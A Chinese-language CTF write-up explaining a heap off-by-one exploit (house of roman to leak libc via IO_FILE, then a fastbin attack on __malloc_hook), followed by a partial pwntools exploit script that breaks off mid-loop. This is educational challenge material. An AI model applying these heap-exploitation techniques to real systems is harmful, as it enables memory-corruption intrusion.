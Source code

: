 远程环境为16.04漏洞点在`edit`有`off-by-one`，但是要回车跳出循环或者将`size+1`的空间全部填满。

思路还是很简单的，使用`house of roman`来申请`io`leak libc。然后使用`fastbin attack`覆写`__malloc_hook`。

难点在堆的布局，

首先，申请五个chunk，chunk_3是`fastbin victim`大小为0x70，在这个chunk尾部伪造一个0x20大小的chunk，用以后面进行分割，并将其释放掉。

再通过`off-by-one`chunk_0伪造一个`unsorted chunk = chunk_1 + chunk_2 + chunk_3`，这个chunk要包含`fastbin victim`。

`edit`chunk_1将chunk_2的大小设为0x61，free(unsorted chunk)，这时再malloc(0x130)，`unsorted chunk`就会被分割，`unsorted bin`中只留下了chunk_3，而chunk_3在开始被加入了`fastbin`中。

free(chunk_2)，chunk_2被我们修改了大小，其尾部包含了`chunk_3`的头部，所以我们可以覆写其`fd`的低字节使其指向io_file就可以leak libc。

之后就简单的`fastbin attack`了。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack
import sys

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']
context.log_level="DEBUG"
binary='./pwn'

#gdb.attach(sh)
elf = ELF(binary,checksec=False)

def add(idx, size, content):
    sh.sendlineafter('choice:', '1')
    sh.sendlineafter('index:', str(idx))
    sh.sendlineafter('size:', str(size))
    sh.sendafter('data:', str(content))

def edit(idx, content):
    sh.sendlineafter('choice:', '3')
    sh.sendlineafter('index:', str(idx))
    sh.sendafter('data:', str(content))

def delete(idx):
    sh.sendlineafter('choice:', '2')
    sh.sendlineafter('index:', str(idx))


for i in range(0x100):
        try:
            sh = process('./pwn')
            # sh = remote("101.200.201.114", 30003)
            add(0, 0xf8, 'a'*8)
            add(1, 0xf8, 'a'*8)
            add(2, 0x30, 'a'*8)
            add(3, 0x60, ('a'*8).ljust(0x18, '\x00') + p64(0x21))
            add(4, 0x100, 'a'*8)

            add(5, 0x68, 'a'*8)
            add(6, 0x30, 'a'*8)
            add(7, 0x60, ('a'*8).ljust(0x18, '\x00') + p64(0x21))
            add(8, 0x60, 'a'*8)
            
            delete(3)
```